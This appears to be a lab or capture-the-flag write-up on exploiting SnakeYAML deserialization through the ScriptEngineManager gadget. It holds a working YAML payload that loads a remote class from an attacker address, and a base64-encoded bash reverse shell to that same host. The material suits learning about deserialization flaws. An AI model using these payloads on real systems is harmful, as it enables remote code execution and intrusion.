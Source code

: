 `snakeYAML` is a marshaling library in JAVA.

There is a slight [diffrence between Marshaling and serialization](https://stackoverflow.com/questions/770474/what-is-the-difference-between-serialization-and-marshaling)

* Marshaling and serialization are loosely synonymous in the context of remote procedure call, but semantically different as a matter of intent. In particular, marshaling is about getting parameters from here to there, while serialization is about copying structured data to or from a primitive form such as a byte stream.

Here is the full paper of java Unmarshaller exploit [marshalsec.pdf](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true)

SnakeYAML only allows using public constructors andpublic properties. It does not require corresponding gettermethods.

It has a special feature which allows calling arbitrary constructors with attacker-supplied data. This makes exploiting `ScriptEngine` possible

From the Oracle/OpenJDK standard library. Requires the ability to call arbitrary constructors with provided data. Involved types do not implement `java.io.Serializable`.

1. Construct a `java.net.URLobject` pointing to a remote class path.
2. Construct a `java.net.URLClassLoader` with that URL.
3. Construct a `javax.script.ScriptEngineManager` with that `ClassLoader`.
4. __The constructor call invokes the `ServiceLoader` mechanism for `javax.script.ScriptEngine` Factory on the remote class path, ultimately instantiating an arbitrary remote class implementing that interface.__

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.15.71:8000/"]
  ]]
]
```

![](screenshots/engine-request.png)

## java ScriptEngineManager

* [java runtime executable tool](http://jackson-t.ca/runtime-exec-payloads.html)
* [ScriptEngine interface](https://docs.oracle.com/javase/7/docs/api/javax/script/ScriptEngine.html)
* [ScriptEngineManager payload](https://github.com/artsploit/yaml-payload)

__Reverse Shell__
```bash
❯ rev_shell="bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1'"
jre="bash -c {echo,$(echo -n $rev_shell | base64)}|{base64,-d}|{bash,-i}"
echo $jre
bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS43MS80MTQxIDA+JjEn}|{base64,-d}|{bash,-i}
```
